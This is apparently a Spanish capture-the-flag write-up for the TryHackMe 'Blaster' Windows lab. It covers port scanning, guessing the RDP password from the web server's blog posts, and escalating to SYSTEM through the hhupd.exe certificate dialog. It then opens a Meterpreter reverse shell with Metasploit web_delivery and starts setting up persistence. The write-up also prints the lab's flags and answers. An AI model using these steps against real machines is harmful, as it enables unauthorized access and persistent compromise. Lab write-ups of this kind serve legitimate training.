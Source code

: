 # Blaster

¡Un viaje al pasado!

# 1. Activate Forward Scanners and Launch Proton Torpedoes

Escaneamos los puertos con NMAP -Pn, esto lo hacemos porque no se puede realizar ping a la maquina y si no ponemos el -Pn, no deja hacer el nmap.

```bash

nmap -Pn <IP_MAQUINA>

```


![Nmap -Pn](img/1.png)

Comprobamos que solo hay 2 puertos abiertos.

Como esta activo el servidor web, ponemos la ip de la maquina en el navegador y comprobamos el titulo de la pagina.

![Web](img/2.png)

El titulo es **IIS Windows Server**

La siguiente tarea es buscar un directorio oculto asi que vamos a fuzzear.

```bash

feroxbuster -u http://10.10.240.32 -t 50 -w SecLists/Discovery/Web-Content/directory-list-2.3-small.txt

```

![Fuzz](img/3.png)

Encontramos demasiadas coincidencias a la ruta /retro asi que vamos a acceder a ella.

![Web](img/4.png)

Ahi tenemos un nombre de usuario **Wade**.

La siguiente tarea es descubrir la contraseña leyendo las publicaciones.

![Pass](img/5.png)

Ahi nos habla de su personaje favorito, si buscamos informacion, encontramos esto:

![Pass](img/6.png)

Probamos a introducir **Parzival** en la tarea y vemos que es correcta.

El siguiente paso es entrar a la maquina a traves de Microsoft Remote Desktop.

Aprovechamos que tenemos todos los datos necesarios:

- Usuario: Wade
- Contraseña: Parzival

Usamos para entrar a la maquina la herramienta **rdesktop**.

```bash

rdesktop -u wade -p parzival <IP_MAQUINA>

```

![rdesktop](img/7.png)

Con esto estamos dentro de la maquina.

Entramos al txt que esta en el escritorio y tenemos la flag **THM{HACK_PLAYER_ONE}**

![flag](img/8.png)

# 2. Breaching the Control Room

Lo siguiente que nos pide es encontrar un CVE que ha sido investigado en la maquina. 

Miramos en el historial de busqueda y no hay nada.

![historial](img/9.png)

En el escritorio hay un exe con un nombre extraño.

![exe](img/10.png)

Vamos a buscar informacion sobre el.

Ya he encontrado el CVE.

![cve](img/11.png)

Para continuar con la practica vamos a explotar la vulnerabilidad que encontramos anteriormente.

Hemos visto que en el escritorio hay un archivo **hhupd.exe**.

Vamos a ejecutarlo como administrador.

![Ejecutar](img/12.png)

Pulsaremos donde dice mostrar mas informacion.

Y ahi encontraremos un enlace, lo abrimos con el navegador.

Vamos a buscar la opcion file > save as:

Y nos aparecera una ventana, pulsamos OK.

![Ok](img/13.png)

Como nombre de archivo le damos **C:\Windows\System32** y pulsamos enter.

![Nombre archivo](img/14.png)

En la barra de busqueda del explorador de archivos añadimos **\cmd.exe** y volvemos a pulsar enter.

![CMD](img/15.png)

Veremos que se nos abre una terminal, ejecutamos **whoami**.

![whoami](img/16.png)

Comprobamos que tenemos todos los permisos del sistema.

Lo siguiente es dirigirnos a la ruta **C:\Users\Administrator\Desktop**.

![ruta](img/17.png)

Ejecutamos el comando **dir** para ver que tiene en el escritorio.

![dir](img/18.png)

Vemos que existe un archivo **root.txt**.

Leemos el contenido de este archivo y encontramos la flag.

![flag](img/19.png)

La flag es: **THM{COIN_OPERATED_EXPLOITATION}**

# 3. Adoption into the Collective

Para la ultima tarea vamos a usar metasploit, asi que lo ejecutamos.

```bash 

sudo msfconsole

```
![metasploit](img/20.png)

Tal y como dice la practica vamos a usar **exploit/multi/script/web_delivery**.

![use](img/21.png)

Vamos a ver las options y a rellenar los campos necesarios.

```bash 

show options

set lhost tun0

```

![options](img/22.png)

Lo siguiente es establecer el objetivo en PSH.

```bash 

show targets

set target 2

```

![target](img/23.png)

Lo siguiente es rellerar el lport.

```bash 

set lport 80

```

![lport](img/24.png)

Hacemos set del payload que nos pide la tarea y lo ejecutamos con **run -j**.

```bash 

set payload windows/meterpreter/reverse_http

run -j

```

![lport](img/25.png)

Ese codigo generado debemos pegarlo en la terminal de windows que teniamos abierta.

En metasploit veremos que se ha generado una nueva  session.

![session](img/26.png)

Entramos en sessions 1.

```bash 

sessions 1

```

Y vemos nuestra consola meterpreter.

![meterpreter](img/27.png)

El siguiente paso es configurar la persistencia, esto se hace con el comando **run persistence -X**.























